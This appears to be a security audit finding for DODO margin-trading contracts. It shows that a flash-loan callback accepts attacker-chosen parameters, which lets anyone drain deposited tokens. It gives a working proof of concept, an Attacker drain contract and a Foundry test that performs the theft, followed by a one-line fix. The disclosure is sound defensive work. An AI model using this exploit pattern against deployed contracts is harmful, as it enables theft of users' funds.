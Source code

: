 shaka

high

# Flash loan callback can be used to steal tokens

## Summary

Flash loan callback can be used to steal tokens.

## Vulnerability Detail

`MarginTrading.sol:executeOperation()` is the callback function called by `LendingPool`. It receives a set of encoded parameters that are then used to perform certain operations defined in the internal functions `_closetrade` and `_opentrade`.

Anyone can make `executeOperation` be executed with arbitrary parameters by calling `LendingPool.flashLoan` with the `MarginTrading` contract address as the `receiverAddress` parameter.

## Impact

An attacker can withdraw all available tokens in the contract by executing `_opentrade` internal function.

What is even worse, the attacker can execute first `_closetrade` in order to withdraw tokens from the lending pool into the contract and then pull them from the contract.

## Code Snippet

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#LL121C1-L166C6

## Proof of concept

Helper contract to perform the attack
```solidity
pragma solidity ^0.8.15;

interface IERC20 {
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) external returns (bool);
}

contract Attacker {
    address payable public owner;

    constructor() public {
        owner = payable(msg.sender);
    }

    function drain(address[] memory tokens, uint256[] memory amounts) external payable {
        for (uint256 i; i < tokens.length; ++i) {
            IERC20(tokens[i]).transferFrom(msg.sender, owner, amounts[i]);
        }
    }
}
```

Foundry test
```solidity
function testDrainTokens() public {
    address blackHat = address(1);
    faucet(address(dai), user1, 100 ether);
    faucet(address(dai), address(lendingPoolV2), 10000 ether);
    uint256 depositAmt = 100 ether;

    // User creates margin trading contract
    vm.startPrank(user1);
    address _marginTrading = createMarginTradingContract();

    // User deposits to lending pool
    marginTradingFactory.depositMarginTradingERC20(_marginTrading, address(dai), depositAmt, true, 1);
    vm.stopPrank();

    // Attacker creates helper contract
    vm.startPrank(blackHat);
    Attacker attacker = new Attacker();

    // Attacker executes flash loan to withdraw token from lending pool
    address[] memory _assets = new address[](1);
    _assets[0] = address(dai);
    uint256[] memory _amounts = new uint256[](1);
    _amounts[0] = 1 ether;
    uint256[] memory _modes = new uint256[](1);
    uint256 flashLoanFee = 0.0009 ether;
    bytes memory executeParamsWithdraw;
    {
        uint256[] memory _amountsDrain = new uint256[](1);
        _amountsDrain[0] = depositAmt - flashLoanFee;
        address[] memory _withdrawAssets = new address[](1);
        _withdrawAssets[0] = address(dai);
        uint256[] memory _withdrawAmount = new uint256[](1);
        _withdrawAmount[0] = depositAmt;
        executeParamsWithdraw = encodeExecuteParams(
            0,
            address(0),
            address(0),
            new address[](0),
            "",
            new address[](0),
            _withdrawAssets,
            _withdrawAmount,
            new uint256[](0),
            new address[](0)
        );
    }
    lendingPoolV2.flashLoan(_marginTrading, _assets, _amounts, _modes, _marginTrading, executeParamsWithdraw, uint16(0));

    // Attacker executes flash loan to steal token
    bytes memory executeParamsSteal;
    {
        uint256[] memory _amountsSteal = new uint256[](1);
        _amountsSteal[0] = depositAmt - flashLoanFee * 2;
        bytes memory swapParams = abi.encodeWithSignature("drain(address[],uint256[])", _assets, _amountsSteal);
        address[] memory _swapApproveToken = new address[](1);
        _swapApproveToken[0] = address(dai);
        executeParamsSteal = encodeExecuteParams(
            1,
            address(attacker),
            address(attacker),
            _swapApproveToken,
            swapParams,
            new address[](0),
            new address[](0),
            new uint256[](0),
            new uint256[](0),
            new address[](0)
        );
    }
    
    lendingPoolV2.flashLoan(_marginTrading, _assets, _amounts, _modes, _marginTrading, executeParamsSteal, uint16(0));
    vm.stopPrank();
    
    assertEq(dai.balanceOf(blackHat), depositAmt - flashLoanFee * 2);
}
```

To execute the test:
- Copy the snippet above into the `MarginTradingTest` contract.
- Create and import the `Attacker.sol` contract.
- Edit `MockLendingPoolV2:flashLoan()` so that matches the [`LendingPool.sol` implementation](https://github.com/aave/protocol-v2/blob/30a2a19f6d28b6fb8d26fc07568ca0f2918f4070/contracts/protocol/lendingpool/LendingPool.sol#L497).
```diff
        MockERC20(assets[0]).transfer(onBehalfOf, amounts[0]);

-       IFlashLoanReceiver(msg.sender).executeOperation(assets, amounts, _premiums, msg.sender, params);
+       IFlashLoanReceiver(receiverAddress).executeOperation(assets, amounts, _premiums, msg.sender, params);
```
- Run `forge test -m testDrainTokens`

## Tool used

Foundry

## Recommendation

```diff
    function executeOperation(
        address[] calldata _assets,
        uint256[] calldata _amounts,
        uint256[] calldata _premiums,
        address _initiator,
        bytes calldata _params
    ) external override onlyLendingPool returns (bool) {
+       require(_initiator == address(this), "_initiator is not MarginTrading");
```